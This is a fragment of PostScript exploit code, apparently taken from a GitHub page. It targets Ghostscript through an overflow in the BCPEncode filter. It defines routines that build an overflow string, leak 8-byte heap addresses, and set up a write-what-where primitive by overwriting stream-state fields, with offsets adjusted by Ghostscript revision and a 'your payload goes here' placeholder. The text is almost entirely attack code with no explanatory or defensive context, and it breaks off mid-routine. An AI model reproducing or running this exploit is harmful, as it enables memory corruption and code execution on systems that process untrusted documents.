 ```bash
 exch
 sub
 16 16 string cvrs
}def
% - -> a long string
/createOverflow {
 ()
 1 1 2045 {pop <41> concatstrings}for
 <1313> concatstrings %escaped char
 revision 9560 ge 
 {1 1 15 {pop <42> concatstrings} for}
 {1 1 23 {pop <42> concatstrings} for}
 ifelse
}def

/leakAsString{
 /myString 16 string def
 /asciiToHexFilter myString /ASCIIHexEncode filter def
 asciiToHexFilter exch writestring
 asciiToHexFilter flushfile
 myString
}def


% (0xstring) --> ascii string
/stringToAddress{
 % from 0x231 to 0x0231, otherwise the filter understand 0x23 then 0x10
 dup length 2 mod 1 eq {(0) exch concatstrings}if
 /ASCIIHexDecode filter
 8 string readstring
 pop
 reverse
 % from 0xdeadbeef to 0x00000000deadbeef
 {dup length 8 eq {exit} {<00> concatstrings }ifelse}loop 
}def
% - -> a 8 bytes leak from the heap (i/o pool)
/leakMemory{
 /leakBuffer 10000 string def
 /leakMemoryFilter leakBuffer /NullEncode filter /BCPEncode filter def
 createOverflow
 <6964004343434343> concatstrings % s->templat (your payload goes here)
 <4444444444444444> concatstrings % s->memory
 <4545454545454545> concatstrings % s->report_error
 <4646464646464646> concatstrings % s->min_left
 1 1 80{pop <47> concatstrings }  for% s->error_string
 <4848484848484848> concatstrings % s->cursor->r->ptr
 leakMemoryFilter exch writestring
 leakMemoryFilter flushfile
 revision 9560 ge 
 {/leak leakBuffer 2176 8 getinterval def}
 {/leak leakBuffer 2184 8 getinterval def}
 ifelse
 leak
 reverse
} def


% what where -> -
/writewhatwhere {
 createOverflow
 <4343434343434343> concatstrings % s->templat
 <4444444444444444> concatstrings % s->memory
 <4545454545454545> concatstrings % s->report_error
```
